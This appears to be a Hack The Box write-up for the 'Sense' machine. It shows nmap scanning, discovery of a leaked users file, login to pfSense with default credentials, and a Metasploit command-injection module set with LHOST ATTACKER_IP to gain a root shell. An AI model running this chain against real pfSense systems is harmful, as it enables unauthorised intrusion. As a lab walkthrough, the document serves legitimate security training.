








# Sense - Hack The Box Writeup

## Overview

* Machine: Sense
* Difficulty: Easy
* Platform: Hack The Box
* IP: 10.129.8.213

---

## Reconnaissance

We start with an Nmap scan:

```bash
nmap -sC -sV --min-rate=1000 -p- 10.129.8.213
```



### Result:

* 80/tcp → HTTP (lighttpd 1.4.35)
* 443/tcp → HTTPS (pfSense)

The HTTP service redirects to HTTPS, indicating a web-based interface.

---

## Web Access

Opening the target in a browser redirects to HTTPS:

This reveals a **pfSense login panel**.



---

## Web Enumeration

Using directory brute-forcing, we discover hidden files such as:

* `/system-users.txt`
* `/changelog.txt`

---

## Credential Discovery

Accessing:

```bash
https://10.129.8.213/system-users.txt
```

We find:

```
username: rohit
password: company defaults
```



---

## Authentication

Trying default pfSense credentials:

```text
rohit : pfsense
```

Login successful.

---

## Version Identification

From the dashboard, we identify:

* pfSense version: **2.1.3**

This version is known to be vulnerable to command injection. ()



---

## Exploit Discovery

Searching for exploits:

```bash
searchsploit pfsense 2.1.3
```

We find:

```
exploit/unix/http/pfsense_graph_injection_exec
```



---

## Exploitation

Using Metasploit:

```bash
use exploit/unix/http/pfsense_graph_injection_exec
set USERNAME rohit
set RHOSTS 10.129.8.213
set LHOST ATTACKER_IP
run
```

---

## Initial Access

We successfully obtain a shell:

```bash
getuid
```

Output:

```
root
```

No privilege escalation required.



---

## User Flag

Navigate to user directory:

```bash
cd /home/rohit
cat user.txt
```



---

## Root Flag

Navigate to root directory:

```bash
cd /root
cat root.txt
```



---

## Lessons Learned

* Directory enumeration can expose sensitive files
* Default credentials are a common weakness
* Outdated software often leads to critical vulnerabilities
* pfSense 2.1.3 is vulnerable to command injection

---

## Conclusion

This machine demonstrates how combining information disclosure, default credentials, and a known vulnerability can lead directly to root access.

---

## Tags

Web, Credential Leak, RCE, pfSense, Easy
